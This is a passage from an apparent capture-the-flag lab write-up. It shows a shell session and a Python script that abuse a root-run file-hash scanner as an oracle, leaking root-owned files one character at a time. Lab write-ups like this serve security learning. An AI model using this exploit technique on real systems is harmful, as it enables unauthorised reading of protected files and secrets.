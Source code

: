 ```
  -l int
        Maximum bytes of files being checked to hash. Files smaller than this value will be fully hashed. Smaller values are much faster but prone to false positives. (default 500)
  -p    [Debug] Print calculated file hash. Only compatible with -c
  -s string
        Specific hash to check against. Not compatible with -h
```

Even if the file matches or not, the returning status code is 0. However, we could try to exfiltrate the content of files owned by root based on the output of the command.

```
greg@intentions:~$ echo -n 'dusk' > test.txt
greg@intentions:~$ echo -n 'dusk' | md5sum
fc8358bcf09e4b3947d1975622a9df14  -
greg@intentions:~$ echo $?
0

greg@intentions:~$ /opt/scanner/scanner -s fc8358bcf09e4b3947d1975622a9df14 -c test.txt -l 4
[+] fc8358bcf09e4b3947d1975622a9df14 matches test.txt
greg@intentions:~$ /opt/scanner/scanner -s asdfghjkl -c test.txt -l 4
greg@intentions:~$ echo $?
0
```

This is the Python script I created. TBH, I don’t think that the ThreadPoolExecutor improved anything the way I implemented it. I always like trying to remake the script with threading once it works.

```python
import argparse
import hashlib
import shlex
import subprocess
import sys
import string
import time
from concurrent.futures import ThreadPoolExecutor

final_string = ""

def comparison(hash, file, c):
    global final_string
    hash = hashlib.md5(f'{final_string}{c}'.encode('utf-8'))
    command = f'/opt/scanner/scanner -s {hash.hexdigest()} -c {file} -l {len(final_string) + 1}'
    process = subprocess.check_output(shlex.split(command))
    if process:
        final_string += c
        print(c, end="")
        return True
    return False

def exploit(file):
    characters = string.ascii_letters + string.digits + string.punctuation + "+ \n"

    print(f"\n[+] Dumping {file}\n")
    while True:
        with ThreadPoolExecutor(max_workers=50) as executor:
            for c in characters:
                process = executor.submit(comparison, hash, file, c)
                if process.result():
                    break

            else:
                return

```